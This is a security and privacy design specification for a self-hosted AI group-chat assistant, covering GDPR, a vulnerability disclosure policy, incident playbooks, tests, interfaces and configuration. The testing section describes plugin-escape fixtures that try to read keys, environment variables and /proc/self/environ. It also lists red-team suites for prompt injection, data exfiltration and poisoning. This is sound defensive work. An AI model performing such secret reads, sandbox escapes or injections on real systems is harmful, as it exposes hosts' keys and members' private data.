| Rectification | Art. 16 | "That's wrong: …" correction flow | 04 |
| Erasure | Art. 17 | Forget item, "forget everything about me" (crypto-shred blobs; purge from future backups; existing backups age out — disclosed) | 04, 02 |
| Restriction | Art. 18 | `memory_off`; pause Village in DM | 03 |
| Portability | Art. 20 | `export.self` (JSON + attachments) | 04, 09 |
| Objection | Art. 21 | Opt out of extraction and proactive DMs | 03, 07 |
| Automated decisions | Art. 22 | Chore assignment is explainable and contestable; no legal or similarly significant effects | 03 |
| Consent withdrawal | Art. 7(3) | Consent states (`03`); withdrawal is as easy as granting (one command) | 03 |
| Data protection by design | Art. 25 | IFC, minimization, retention, encryption | all |
| Security | Art. 32 | This doc | 08 |
| Processors | Art. 28 | Model providers act as processors for the host where GDPR applies; links to their DPAs | 13 docs |

#### 3.16.5 The "household exemption" (information, not legal advice)
- GDPR Art. 2(2)(c) and Recital 18 exclude processing "by a natural person in the course of a purely personal or household activity". Recital 18 cites correspondence and social networking in that context.
- Recital 18 also says the Regulation **still applies to controllers or processors that provide the means** for such processing.
- The CJEU reads the exemption narrowly:
  - *Lindqvist* (C-101/01): publishing to an indefinite audience is not household;
  - *Ryneš* (C-212/13): home CCTV covering public space is not household;
  - *Jehovan todistajat* (C-25/17): a community's collection of personal data is not household.
- On 17 Sept 2026 the German BGH referred two cases on the scope of "personal or family" activities, including **forwarding private messenger chats** (I ZR 256/25, I ZR 289/25). The answer may change the analysis for chat tools.

What this likely means:
- **A family or a few friends** self-hosting for themselves will often fall within the exemption.
- **Clubs, school-parent groups, teams and OSS communities** likely do not; the host may be a controller with real obligations.
- **The Village project** hosts nothing and processes no user data, so it is a software publisher, not a controller or processor of hosts' data. Our docs give hosts templates (privacy notice text, member rights commands) without claiming compliance.
- Similar personal/domestic carve-outs exist elsewhere (e.g. UK GDPR; India's DPDP Act 2023 excludes processing for personal or domestic purposes). The docs list them as pointers only.

**EU AI Act Art. 50(1)** (applies from 2 Aug 2026; the free/open-source exemption in Art. 2(12) does not cover Art. 50): people must be informed they are interacting with an AI system. Village complies by design: bot accounts, the group intro states "I'm an AI", and the `privacy` command explains it.

#### 3.16.6 Children's data
- **Roles and age.** `child`/`teen` roles (`03` templates) carry an age band (`<13`, `13–17`), never a birthdate. Data whose subject is a minor defaults to `sensitive` (spine `Sensitivity`).
- **DMs.** Child DMs are off until a guardian enables them (SD-24).
- **Guardian scope.** Guardians approve actions as `03` defines. They **never** see verbatim child DMs, and the constitution cannot grant that (00 §6.3 no surveillance). Guardians may export or delete a minor's data on their behalf.
- **Proactivity.** Lower attention budget for children; quiet hours default to 20:00–07:30 on school nights (`07`).
- **Images.** No face identification or photo analysis of people. The charter forbids identifying people from faces (`05`).
- **Engagement.** No engagement optimization for minors (no streaks, no nudges beyond explicit reminders).
- **US COPPA** targets operators of commercial online services directed to children. A family's self-hosted instance is usually not that, but the host may still be bound by provider policies (§3.11.5). Docs say so neutrally.

#### 3.16.7 Transparency features
- **"What do you know about me?"** returns the member's own items with provenance.
- **"Why did you say that?"** returns an audience-filtered explanation (IA-8).
- **Dashboard pages:**
  - "My data" (own items, sessions, PATs, ICS feeds);
  - "Privacy" (per-route egress table, retention, host name, local-only status);
  - "Audit" (own actions; admins see group actions with private targets redacted).
- **Change notices.** Privacy-relevant config changes are announced in the group (S13). Debug-mode announcement (S14).

#### 3.16.8 Honest host-trust disclosure (verbatim for docs, wizard and `privacy` command)
> **About the person who runs Village.** Village runs on a computer controlled by {hostName}, the "host". Village's privacy rules stop *members and admins* from seeing each other's private messages and notes: that is enforced in code, not just promised. But the host holds the encryption key and controls the software, so the host could read anything Village stores if they chose to. Village makes this visible: it names the host, and it announces in this chat if content debugging is ever switched on. If you don't trust the host with your private messages, don't DM Village; you can still use it in the group with memory off.

### 3.17 Legal-risk minimization for the maintainer
- **Official platform APIs only** (Bot API, Discord API, Slack Bolt Socket Mode, Matrix CS API, signal-cli). Each host registers **their own** bot/app and is the "developer" under that platform's terms. Docs link each platform's developer terms.
- **No scraping, no unofficial clients, no unofficial WhatsApp** (00 §6.3). The plugin registry/awesome-list policy (`10`/`13`) refuses unofficial WhatsApp/iMessage clients.
- **Trademark-safe naming** (`13` naming check): no platform or provider marks in the product name. Nominative use only ("works with Telegram"). No provider logos implying endorsement. Respect each brand's guidelines.
- **No advice positioning:** charter disclaimers (`05`), README/docs disclaimers, Apache-2.0 §7–8 warranty and liability disclaimers.
- **Apache-2.0 + DCO** (ADR-016): DCO bot check on PRs; third-party notices maintained (`NOTICE` + license report in the SBOM).
- **Export controls (note, not advice):** Village uses standard cryptography (OpenSSL via Node, libsodium, SQLCipher) in publicly available source. Under the US EAR, publicly available encryption source code is generally not subject to the EAR (§734.3(b)(3)), and since the March 2021 rule no email notification is required except for "non-standard cryptography" (which we do not implement). Maintainers do not knowingly distribute to sanctioned parties; GitHub/npm enforce their own trade controls.
- **Content responsibility:**
  - The project hosts nothing: no relays, no hosted instances, no default public bots.
  - The in-browser demo runs a scripted fake model locally (`13`).
  - Docs state hosts are responsible for their instance, their group's lawful use and platform terms.
- **No collection by the project:** issue templates warn against posting logs with content; `doctor --bundle` is redacted.

### 3.18 Vulnerability disclosure (SECURITY.md content, severity, SLAs, advisories)

````markdown
# Security Policy

## Supported versions
Before 1.0: only the latest release receives fixes. From 1.0: the latest minor of the current
major. When a new major ships, the previous major's last minor receives security and
data-integrity fixes for 12 months (release lines are defined in docs/ops; plan `12` §3.10.6).

## Reporting a vulnerability
**Do not open a public issue.** Use GitHub's private reporting:
Security → Advisories → "Report a vulnerability" (https://github.com/<org>/village/security/advisories/new).
If you cannot use GitHub, email security@<project-domain> (PGP key in this file once the domain exists).

Please include: version/commit, deployment (Docker/npm/HA), configuration that matters (exposure
mode, providers, plugins), reproduction steps or a scenario transcript, and impact. For privacy
leaks, use synthetic data only; never send us real members' messages.

## What to expect
- Acknowledgement within 3 business days; triage and severity within 7 days.
- Fix targets: Critical 7 days · High 30 days · Medium 90 days · Low next minor release.
- Coordinated disclosure: we publish a GitHub Security Advisory (with CVE via GitHub) when a fix is
  released, or at 90 days, whichever comes first, unless we agree otherwise. Credit is given
  unless you ask not to be named. There is no bug bounty.

## Scope
In scope: anything that lets someone read data they are not allowed to see (including other
members' private information through Village's replies), act beyond their role, bypass dashboard
authentication, escape plugin isolation on a supported configuration, break encryption at rest
or backups, or compromise releases.
Out of scope: attacks that require the host's machine or keys (the host is trusted by design;
see https://<domain>/trust/threat-model/); platform vulnerabilities (report to the platform); model
"jailbreaks" with no privacy or authority impact; self-XSS; missing headers without a
demonstrated impact; denial of service requiring more traffic than a group could plausibly send.

## Safe harbor
We will not pursue or support legal action against good-faith research that respects users'
privacy, avoids data destruction and service disruption, uses only your own instances and test
accounts, and gives us reasonable time to fix before disclosure.
````

**Severity rubric** (CVSS 4.0 vector recorded; this rubric decides the label):
| Severity | Village examples |
|---|---|
| Critical | Pre-auth RCE via chat payload, network or document; master or data key disclosure; dashboard auth bypass in modes P/T/I; **architecture-level IFC violation** (another member's private item reaches a context or output for a non-reader) reproducible on default config |
| High | IFC leak needing specific but plausible conditions; unauthorized state mutation (I3 bypass); stored XSS in the dashboard; plugin escape with Node ≥ 25 flags; SSRF to private ranges via member-controlled input; credential leakage into logs/traces |
| Medium | Inference beyond owner-approved constraints (behavioral, model-dependent) at default settings; budget-guard bypass (denial of wallet); CSRF on non-sensitive actions; metadata leaks (counts, existence) |
| Low | Hardening gaps, verbose errors, issues requiring host misconfiguration that doctor already flags |

Rule: an **architecture violation** (private data *present* where the IFC says it must not be) is rated on impact regardless of how reliably a model can be made to repeat it. A **behavioral miss** (the model phrased audience-safe constraints too revealingly) is rated one level lower.

**Advisory process:**
1. Private fork via a GHSA draft.
2. Fix with a regression test, plus a red-team scenario where applicable.
3. CVE requested through the GitHub CNA.
4. Coordinated release across npm, GHCR, the Home Assistant app and Umbrel/CasaOS manifests (`12`).
5. Publish the GHSA. npm dependents get Dependabot alerts.
6. Add `advisories[]` to the release manifest (opt-in update-check users see a banner and the host gets a DM).
7. Release notes, a GitHub Discussions announcement, a docs banner.
8. Credit the reporter.

### 3.19 Incident response runbook (maintainers)
**Roles:** Incident Lead (IL, the first responding maintainer), Fixer(s), Comms. One person may hold several roles; every decision goes into the private incident log (GHSA draft or private issue).

| Phase | Actions | Target |
|---|---|---|
| 1 Intake | Acknowledge the reporter; open a GHSA draft; assign IL | ≤ 3 business days |
| 2 Triage | Reproduce on a clean instance; rate with §3.18; identify affected versions and configs | ≤ 7 days (Critical: ≤ 24 h) |
| 3 Contain | Publish config mitigations (e.g. "set `privacy.sensitiveRoutesLocal`", "disable plugin X", "bind loopback"); for release compromise see playbook B | Critical: ≤ 24 h |
| 4 Fix | Patch + tests + red-team scenario; review by 2 maintainers (one CODEOWNER) | Per SLA |
| 5 Release | Coordinated multi-channel release (§3.18) | Per SLA |
| 6 Disclose | GHSA + CVE + notes; credit | With release |
| 7 Review | Blameless postmortem within 14 days; add tests, controls and doc updates; track actions | ≤ 14 days |

**Playbooks:**
- **A — IFC leak or model-regression leak.** Provider model updates can change guard behavior. Pin the affected route to a known-good model, raise the guard to deterministic-strict mode (`03`), add the scenario to `redteam.discretion`, and publish a config advisory before the code fix.
- **B — Malicious release published** (maintainer or CI compromise).
  1. Revoke the compromised sessions/keys (GitHub, npm).
  2. `npm deprecate` the bad versions with a message; publish a clean patch version. Unpublish only if within npm's window and the malware is active.
  3. Remove GHCR tags. Publish the bad digests in the advisory so `cosign verify` users can check.
  4. Rotate any credential the CI could reach.
  5. Audit `.github/` changes since the last good release.
  6. Tell hosts to treat their instance as compromised (host playbook E).
- **C — Compromised dependency upstream.** Check reachability via the SBOM/lockfile and OSV. Pin or patch (`pnpm patch`) or replace. Release if reachable; advisory if user action is needed.
- **D — Secret committed to the repo.** Revoke at the issuer **first**, then purge history if needed. Secret scanning push protection should prevent it.
- **E — Host playbook** (published in docs, "If you think your Village was compromised"):
  1. Stop the server.
  2. Rotate platform tokens and provider keys at their consoles.
  3. Run the §3.7.7 compromise sequence.
  4. Review the audit log and plugin approvals.
  5. Restore from a pre-incident backup if integrity is doubtful.
  6. Tell your group plainly what happened.
- **F — Exploitation in the wild.** Treat as Critical regardless of score. Post a mitigation advisory within 24 h, even before the fix.

Tabletop exercise: one per release train stage (0.1, 0.5, 1.0) runs scenario B or A end to end.

### 3.20 Security testing program
| Layer | What | When | Owner |
|---|---|---|---|
| Unit / KAT | HKDF RFC 5869 vectors; AES-GCM round-trip and tamper; secretstream truncation/reorder/tamper; recovery-key codec; token codecs; `secureEqual` | PR | 08 · storage/shared |
| Property (fast-check) | IFC invariants I1–I6 (`03`); token parsers never accept malformed input; `safeFetch` classifier never allows a denied address under any encoding (octal/hex/decimal IPv4, mapped/NAT64/6to4 IPv6, trailing dots, IDNA); URL provenance classifier; renderer neutralizes mass mentions for arbitrary strings | PR (1k runs), nightly (100k) | 08, 03 |
| Fuzz (fast-check `fc.string`/`fc.uint8Array` drivers) | RichText parsers (Telegram entities, Discord md, Slack mrkdwn, Matrix HTML) and renderers (round-trip safety); YAML constitution parser + compiler (`yaml` with `maxAliasCount`, size caps); adapter payload zod schemas fed mutated recorded fixtures; MIME/email; ICS; keyring/`VBK1` header parsers; MCP JSON-RPC handler | PR smoke, nightly long | 08, 06, 03 |
| Coverage-guided fuzz | **Jazzer.js** (`@jazzer.js/core` 4.x, maintained; libFuzzer-based) on the same targets, Linux x64, 30 min per target nightly; corpora committed; crashes become regression tests. Consider OSS-Fuzz after 1.0 | Nightly (non-blocking until 1.0) | 11, 08 |
| SAST | CodeQL `security-extended`; typescript-eslint security rules; custom lint bans (`eval`, `new Function`, `child_process` outside allowlisted modules, global `fetch` outside `shared/net` + SDK adapters, `Math.random`, `dangerouslySetInnerHTML`, `===` on secrets) | PR | 08, 11 |
| Dependency | OSV-Scanner, dependency-review, Renovate, `sec.supply.policy` | PR, nightly | 08 |
| DAST | **ZAP baseline** (`zaproxy/action-baseline`, pinned by SHA) against the dashboard served in mode L with seeded data and a logged-in context; **ZAP API scan** with the generated OpenAPI spec; Playwright security e2e (cookie flags, CSP violations = failure, Host/Origin rejection, CSRF, step-up) | PR (server/dashboard paths), nightly | 08, 09, 11 |
| Red-team suites (with `11`) | `redteam.discretion` (≥ 500 scenarios, canaries), `.authority`, `.injection.indirect`, `.exfil.url`, `.exfil.tool`, `.inference.*`, `.poisoning`, `.wallet`, `.trust`; deterministic (FakeModel) in PR; live models nightly across presets | PR / nightly | 11, 03, 08 |
| Isolation | `sec.plugin.escape`: fixture plugins try to read `keys/`, the DB, `process.env`, `/proc/self/environ` of the parent, open sockets (Node ≥ 25), spawn processes, load addons, follow symlinks; all must fail or be contained | PR (M12+) | 10, 08 |
| Egress | `sec.egress.local-only`: e2e in a Docker network with egress blocked except loopback; assert zero non-platform connection attempts | Nightly | 08, 11 |
| Release | Provenance + cosign verification from a clean runner; SBOM present; reproducible tarball diff | Release | 12, 08 |

**Pre-1.0 external review checklist** (gate for M15; the reviewer is an independent security firm or volunteer experts, report published):
1. Threat model (this doc) reviewed against the implementation.
2. IFC: context builder, declassifier, disclosure guard, export paths, traces (code + red-team results).
3. Policy engine / I3 and S10 confirmation paths.
4. Crypto: keyring, unlock, rotation, blobs, backups, tokens (design + code + KATs).
5. Dashboard: auth flows, sessions, CSRF, CSP, Host checks, rate limits (+ ZAP results).
6. `safeFetch` and every fetch call site.
7. Plugin/MCP isolation and approval/pinning.
8. Media worker sandbox and parser versions.
9. Supply chain: workflows (zizmor clean), release provenance, Scorecard.
10. Privacy: retention sweeps, deletion/crypto-shredding, exports, disclosures, children flows.

All Critical/High findings fixed. Medium findings fixed or accepted with an issue and an ADR.

### 3.21 Privacy & Trust page (draft for `apps/docs/src/content/docs/trust/index.md`, served at `/trust/` per `13` §3.C.3)

````markdown
---
title: Privacy & Trust
description: What Village knows, who can see it, where it goes, and what it can never do.
---

Village is an AI assistant that belongs to your group. This page explains, in plain words, how it
handles your information. If anything here is unclear, ask Village "privacy" in a DM.

## The short version
- **Your group runs Village, not us.** Someone in your group (the *host*) runs it on their own
  computer or server. The Village project never receives your messages. There is no Village cloud.
- **DMs stay private from other members.** Not even admins can see your DMs with Village or the
  private notes it keeps for you. This is enforced in code, and tested with hundreds of attack
  scenarios on every release.
- **The host is trusted.** The host holds the encryption key and could technically read
  everything. Village tells you who the host is.
- **An AI provider helps it think**, unless your host chose local-only mode. Parts of
  conversations are sent to that provider to produce replies.
- **No tracking.** Village has no analytics and never phones home.

## Who can see what
| Information | Other members | Admins | Host | AI provider |
|---|---|---|---|---|
| Group chat messages | Yes (they're in the chat) | Yes | Yes | Parts, when Village replies or takes notes |
| Things Village remembers from the group | Yes | Yes | Yes | Parts, when relevant |
| Your DMs with Village | **No** | **No** | Technically yes | Yes, to reply to you |
| Private notes about you (from DMs) | **No**, only "constraints" you approved, e.g. "busy Friday evening" without the reason | **No** | Technically yes | Yes, when summarizing them into constraints (or never, in Hybrid/Local mode) |

## What Village sends to the AI provider
When Village replies in the group, it sends only what everyone in that conversation may see.
When it replies to you in a DM, it may include your own private notes. To check your private
notes against group plans, it turns them into simple, approved constraints first. Your host can
choose **Hybrid** mode (private material handled by a local model on the host's machine) or
**Local-only** mode (no AI provider at all). Ask Village "privacy" to see your group's setup.
Provider policies (they change; read them yourself): Anthropic · OpenAI · Google.

## What the chat app sees
Telegram, Discord and Slack can read messages sent through them, including your DMs with Village,
because those chats are not end-to-end encrypted. Matrix (with encryption on) and Signal are
end-to-end encrypted. For sensitive groups, prefer them.

## Your controls
- "What do you know about me?": see everything Village keeps about you.
- "That's wrong: …": correct it.  "Forget that" / "forget everything about me": delete it.
- "Don't remember my messages": Village stops taking notes from what you write.
- "Export my data": download your information from the dashboard.
- "Why did you say that?": see the reasons, limited to what you're allowed to see.
- Leaving the group: you can still export or delete your data for 30 days.

## How long things are kept
Raw messages: 90 days by default (your group's constitution can change this; any increase is announced first). Notes: until they're
outdated or you delete them. Records of Village's reasoning (which items it used, never the
message text): 30 days. Backups: daily copies for two weeks, plus weekly and monthly copies for
up to six months, then automatically replaced. Deleted items disappear from new backups
immediately and from old backups as they expire.

## How your data is protected
The database and attachments are encrypted on disk. Backups are encrypted and can only be restored
with the host's key or the printed recovery key. The dashboard is private by default and logins
are approved from your own chat account (you send a short code to Village in a private chat and
tap Approve). Releases are signed and built transparently.

## Children
In family groups, children's information is treated as sensitive. Children can only DM Village
once a guardian turns it on. Guardians can approve a child's actions but **cannot** read a
child's DMs. Village never identifies people from photos.

## Things Village will never do
Sell or share data with anyone · show ads · message people outside your group · move money ·
use unofficial chat apps · scrape websites · give medical, legal or financial advice · report
what you do to anyone · send anything to the Village project.

## The honest limits
- The host can read everything Village stores. If you don't trust your host, don't DM Village.
- AI can make mistakes, including about what is private. Village is built so that a mistake by
  the AI cannot reveal another member's private data, but no software is perfect. Report
  problems to your host, and security issues to the project (see SECURITY.md).
- Chat platforms and AI providers have their own policies that Village cannot change.
````

---

## 4. Interfaces

Types are normative sketches. Packages: `@comvivo/shared` (crypto primitives, net, logger, secrets), `@comvivo/storage` (KeyService, blob/backup crypto), `apps/server` (HTTP middleware), `@comvivo/plugin-sdk` host side (sandbox launcher).

```ts
// @comvivo/shared/secrets
export interface SecretString { readonly kind: 'secret'; reveal(): string; toString(): '[REDACTED]'; toJSON(): '[REDACTED]' }
export interface SecretSource { readSecret(name: SecretName): SecretString | undefined } // env > <NAME>_FILE; strips from process.env after read
export type SecretName = 'ANTHROPIC_API_KEY' | 'OPENAI_API_KEY' | 'GEMINI_API_KEY' | 'TELEGRAM_BOT_TOKEN' | 'DISCORD_BOT_TOKEN'
  | 'SLACK_BOT_TOKEN' | 'SLACK_APP_TOKEN' | 'MATRIX_ACCESS_TOKEN' | 'COMVIVO_IMAP_PASSWORD' | 'COMVIVO_MASTER_KEY' | (string & {});

// @comvivo/shared/crypto  (thin, audited wrappers over node:crypto + libsodium; the ONLY crypto import site)
export interface SecretKey { readonly id: string; use<T>(fn: (raw: Uint8Array) => T): T; destroy(): void } // toJSON throws
export interface Crypto {
  random(bytes: number): Uint8Array;
  hkdf(ikm: SecretKey, salt: Uint8Array, info: string, len?: 32): SecretKey;
  wrap(kek: SecretKey, plaintext: Uint8Array, aad: string): Wrapped;          // AES-256-GCM, random 96-bit nonce
  unwrap(kek: SecretKey, w: Wrapped, aad: string): Result<Uint8Array, 'auth_failed'>;
  hmac(key: SecretKey, data: Uint8Array): Uint8Array;                          // HMAC-SHA256
  sha256(data: Uint8Array): Uint8Array;
  secureEqual(a: string | Uint8Array, b: string | Uint8Array): boolean;       // timingSafeEqual over sha256
  scrypt(pass: SecretString, salt: Uint8Array, p: ScryptParams): Promise<SecretKey>;
  sealStream(key: SecretKey, ad: Uint8Array): TransformStream<Uint8Array, Uint8Array>;   // secretstream push
  openStream(key: SecretKey, ad: Uint8Array): TransformStream<Uint8Array, Uint8Array>;   // errors on tamper/truncation
}
export interface Wrapped { alg: 'A256GCM'; nonce: string; ct: string }        // base64url

// @comvivo/storage/crypto
export type KeyPurpose = 'db' | 'blob-kek' | 'backup-kek' | 'token-mac' | 'vault' | 'field' | 'blob-id' | 'fts-token';   // 'fts-token': 02 FTS fallback mode only
export type UnlockSource = 'master-file' | 'master-env' | 'keychain' | 'keyfile' | 'passphrase' | 'recovery';
export interface KeyringStatus { locked: boolean; currentGen: number; retiredGens: number[]; slots: { id: string; kind: 'master' | 'recovery' | 'passphrase' }[]; wrapCount: number }
export interface KeyService {
  status(): KeyringStatus;
  unlock(src: UnlockSource, secret?: SecretString): Promise<Result<void, UnlockError>>;
  key(purpose: KeyPurpose, gen?: number): SecretKey;                           // throws KeysLocked (infrastructure failure)
  rotateMaster(): Promise<SecretString>;                                       // returns new MK for storage sink
  rotateData(opts: { reencryptBlobs: boolean }, journal: RotationJournal): Promise<void>; // resumable
  rotateRecovery(): Promise<RecoveryKeyDisplay>;
  verifyRecovery(rk: SecretString): boolean;
  addPassphraseSlot(p: SecretString): Promise<void>;
  removeSlot(id: string): Promise<void>;                                       // refuses to remove the last recovery slot
}
export type UnlockError = 'no_source' | 'bad_permissions' | 'auth_failed' | 'keyring_corrupt' | 'instance_mismatch';
export interface BlobCipher { encrypt(addr: BlobAddr, mime: string, src: ReadableStream<Uint8Array>): Promise<{ dekWrapped: Wrapped; kekGen: number; body: ReadableStream<Uint8Array> }>; decrypt(row: BlobRow, body: ReadableStream<Uint8Array>): ReadableStream<Uint8Array> }
export interface BackupEnvelope { seal(tar: ReadableStream<Uint8Array>, meta: BackupMeta): ReadableStream<Uint8Array>; open(file: ReadableStream<Uint8Array>, via: { kind: 'master' } | { kind: 'recovery'; rk: SecretString }): Promise<{ header: BackupHeader; tar: ReadableStream<Uint8Array> }>; rewrapHeader(path: string): Promise<void> }

// @comvivo/shared/tokens (used by apps/server, mcp)
export type TokenKind = 'session' | 'pending' | 'pairing' | 'magic' | 'csrf' | 'pat' | 'ics' | 'claim' | 'control'; // 'pat' = MCP token (10 §3.7.3)
export interface IssuedToken { token: SecretString; digest: string; expiresAt: string }  // token shown once; digest stored
export interface TokenService {
  issue(kind: TokenKind, claims: TokenClaims): IssuedToken;
  parse(kind: TokenKind, presented: string): Result<ParsedToken, 'malformed' | 'bad_mac' | 'expired' | 'wrong_kind'>; // no DB access
  csrfFor(sessionDigest: string): string;
}

// @comvivo/shared/net
export type EgressPurpose = 'ics-import' | 'mcp-remote' | 'mcp-oauth' | 'plugin' | 'web-search' | 'update-check';
export interface EgressPolicy { purpose: EgressPurpose; allowHttpHosts?: readonly string[]; allowPrivate?: readonly `${string}:${number}`[];
  allowedHosts?: readonly string[]; maxBytes: number; timeoutMs: number; maxRedirects: number; contentTypes?: readonly string[] }
export interface HttpClient { fetch(url: string, init: SafeRequestInit, policy: EgressPolicy, signal: AbortSignal): Promise<Result<SafeResponse, EgressError>> }
export type EgressError = { kind: 'blocked'; reason: 'scheme' | 'userinfo' | 'port' | 'hostname' | 'private_address' | 'redirect' | 'downgrade' } | { kind: 'limit'; reason: 'bytes' | 'timeout' | 'redirects' | 'content_type' } | { kind: 'network'; message: string };
export function classifyAddress(ip: string): 'public' | { denied: string /* range */ };  // pure, fuzzed

// apps/server/http/security
export interface ExposureMode { kind: 'loopback' | 'proxy' | 'tls' | 'insecure-lan' | 'ha-ingress'; canonicalOrigin: string; allowedHosts: ReadonlySet<string>; secureCookies: boolean;
  magicLinksAllowed: boolean }   // loopback: magicLinks !== 'off'; proxy/tls: magicLinks === 'https'; insecure-lan/ha-ingress: false
export interface RateLimiter { consume(bucket: string, key: string, cost?: number): { ok: true } | { ok: false; retryAfterMs: number } }
export type StepUpClass = 'export' | 'members' | 'constitution' | 'privacy-settings' | 'pat' | 'backup' | 'plugins' | 'sessions-admin';

// outbound URL policy (core, pure) — consumed by engine/guard (03)
export type UrlClass = { kind: 'instance' } | { kind: 'echo'; source: EntityRef; untrusted: boolean } | { kind: 'allowlisted' } | { kind: 'novel' };
export interface UrlPolicy { classify(url: string, ctx: UrlContext): UrlClass }   // UrlContext = audience-visible URL set + allowlist + instance origin

// plugin sandbox launcher (host side of plugin-sdk; also used for media workers)
export interface SandboxSpec { entry: string; readPaths: string[]; writePaths: string[]; allowNet: boolean; env: Record<string, string>;
  maxOldSpaceMb: number; callTimeoutMs: number; runner: 'process' | 'docker' }
export interface Sandbox { start(spec: SandboxSpec): Promise<SandboxHandle> }   // handle: JSON-RPC over stdio, kill(), on('exit')

// security audit events (AuditEvent.action values; schema in 02)
export type SecurityAuditAction =
  | 'auth.login.success' | 'auth.login.denied' | 'auth.session.revoked' | 'auth.stepup' | 'auth.pat.created' | 'auth.pat.revoked'
  | 'keys.unlocked' | 'keys.rotated.master' | 'keys.rotated.data' | 'keys.rotated.recovery' | 'keys.rotated.sessions'
  | 'plugin.approved' | 'plugin.disabled.hash_changed' | 'mcp.approved' | 'mcp.tool.disabled.hash_changed'
  | 'egress.blocked' | 'guard.url.defanged' | 'ratelimit.tripped' | 'export.created' | 'backup.created' | 'backup.restored'
  | 'privacy.setting.changed' | 'debug.content.enabled' | 'instance.claimed';

// doctor — security checks register in 09's single registry (09 §3.11.6); this is that registry's shape plus the D-xx alias
export interface DoctorCheck { id: string /* 09 registry id, e.g. 'security.egress' */; alias?: `D-${number}`; title: string;
  run(ctx: DoctorContext): Promise<{ status: 'pass' | 'info' | 'warn' | 'fail' | 'skip'; detail: string; fix?: { text: string; command?: string; docs?: string }; fixable?: boolean }> }
```

---

## 5. Configuration

Security-relevant keys. The full schema is generated from zod (`09`). **Host-only** keys (SD-21) are marked ●; they are never editable through the dashboard by group admins.

```yaml
security:
  keys:
    store: keyfile            # ● keyfile | keychain | file | env | passphrase
    keyfilePath: ./data/keys/master.key   # ●
    keychainService: comvivo  # ● default: BRAND.slug; keep the old value after a rename
dashboard:                    # one namespace with 09 §5.1 (session and auth keys live here, not under security.*)
  sessions: { idleHours: 12, absoluteDays: 7, rotateHours: 24, recentAuthMinutes: 10 }
  auth:
    pairingCodes: true        # may be false only where magic links are allowed (else config invalid, exit 78)
    pairingCodeTtlMinutes: 10
    magicLinks: auto          # ● auto = loopback only (mode L) | https = also over HTTPS in modes P/T (explicit opt-in, A9) | off
    magicLinkTtlMinutes: 10   # 2–10
  bind: 127.0.0.1             # ●
  port: 7777                  # ●
  publicUrl: null             # ● (instance.publicUrl alias)
  allowedHosts: []            # ●
  trustProxy: false           # ● false | true | CIDRs whose X-Forwarded-* are honored (09 §3.9.6)
  tls: { certFile: null, keyFile: null }   # ●
  allowInsecureLan: false     # ●
  ingress: { enabled: false, port: 8099, allowFrom: ["172.30.32.2"] }   # ● HA mode H (09 §3.9.10)
ics: { bind: null, port: 7778 }            # ● separate feed listener (§3.8.11)
network:
  egress:
    allowPrivate: []          # ● exact host:port entries
    allowHttpHosts: []        # ●
    defaultTimeoutMs: 10000
    defaultMaxBytes: 10485760
privacy:
  messageRetentionDays: 90    # constitution may change up to the ceiling; increases follow S13
  maxMessageRetentionDays: 365   # ●
  logRetentionDays: 14        # ● (file logs only)
traces:
  retentionDays: 30           # ● 7–365; owned by 11 §5; manifests only, never content
  captureModelIO: false       # ● opt-in (11 §3.10.4)
  encryptAtRest: true         # ●
  localOnly: false            # ●
  sensitiveRoutesLocal: false # ●
outbound:
  linkPreviews: off           # off | allowlisted
  allowedLinkDomains: []      # ●
  maxMentionsPerMessage: 5
plugins:
  runner: process             # ● process | docker
  requireApproval: true       # ● cannot be false outside NODE_ENV=development
updates: { check: false }     # ● opt-in
```

| Env var | Purpose |
|---|---|
| `COMVIVO_MASTER_KEY_FILE` / `COMVIVO_MASTER_KEY` | MK source (prefer `_FILE`) |
| `COMVIVO_PASSPHRASE_FILE` | Passphrase-mode unattended unlock |
| `<SECRET>` / `<SECRET>_FILE` | Every secret in §3.10 |
| `COMVIVO_DEBUG_CONTENT=1` | Content debug logs (announced in groups, auto-deleted after 24 h) |
| `COMVIVO_INSECURE_PERMISSIONS=1` | Skip file-mode refusal (doctor fails) |

Precedence follows ADR-014. ● keys from DB settings are **ignored** (only env/YAML count), so a compromised admin session cannot change them.

---

## 6. Failure modes & edge cases

| Situation | Behavior |
|---|---|
| No unlock source / wrong key / corrupt keyring | Exit 78 with a precise doctor hint. Try `keyring.json.prev`. **Never start unencrypted** |
| Keychain locked or absent (headless Linux) | Fail with a suggestion of `file` + systemd-creds or `keyfile`; no silent fallback |
| Crash mid `rotate-data` | `rotation.json` journal: the rekey is atomic per SQLite3MC. Resume re-derives which gen the DB uses by trial open (new, then old) and continues blob rewrapping |
| Disk full during rekey/backup | Pre-flight free-space check (≥ 1.2× DB size); abort leaves the old key valid |
| Restore with the wrong RK | Header auth fails before any write; clear message; no partial restore |
| Backup from a newer version | Refuse with an upgrade hint (format version check) |
| Clock skew | Tokens allow 60 s; doctor warns at 30 s; sessions use server time only |
| Telegram in-app browser (separate cookie jar) | Pairing completes in the browser that started it; the DM deep link opens Telegram, not the browser; docs explain |
| Member has no DM with the bot yet (Telegram can't DM first) | Login page tells them to open the bot via the deep link first (`06` `dmInitiation`) |
| Roster unknown on platform (S11) | Group-wide memory withheld in that conversation; Village posts a one-time onboarding nudge |
| Node 24 runtime | Plugins run without network enforcement; doctor D-08 warns; approval UI notes it |
| Plugin manifest or tool hash changed after `pnpm update` | Plugin/tool disabled; host DM; re-approve with `village plugin update <id>` (`10` §3.3) |
| MCP server unreachable | Tool returns `is_error` with a generic message; no retries beyond the policy (`05`) |
| DNS returns mixed public and private addresses | Reject (all addresses must pass) |
| `HTTPS_PROXY` configured | `safeFetch` still checks literal IPs; doctor D-15 explains pinning is moot |
| Admin tries to change a ● key via the dashboard | 403 `host_only`; audit event |
| Debug content enabled | Announcement posted in every bound group at boot; content log auto-deleted after 24 h |
| `allowInsecureLan` on a hostile LAN | Documented risk; banner; pairing still prevents platform-link replay |
| Provider policy changes | Docs link to sources; we don't mirror text; `privacy` command links live pages |
| Guardian unavailable to enable a child's DMs | Child keeps group usage; DMs stay off |
| Recovery key never verified | Doctor nudges every 180 days; dashboard banner for the host |
| Blob file present but DEK row deleted (crypto-shredded) | Treated as garbage; retention sweep deletes the file |

---

## 7. Security & privacy (cross-cutting summary)

| Doc | Must implement from this spec |
|---|---|
| 02 | SQLCipher params (§3.7.9), blob rows with `dekWrapped`/`kekGen`/keyed address (§3.7.10), backup inner layout inside `VBK1` (§3.7.11), audit chain, retention sweeps (§3.16.2), crypto-shredding |
| 03 | S11 roster rule, S13 prospective-only changes, URL provenance guard rule (§3.6.3), inference controls IA-1..IA-11 (§3.6.4), S10, argument egress checks for external sinks (§3.14) |
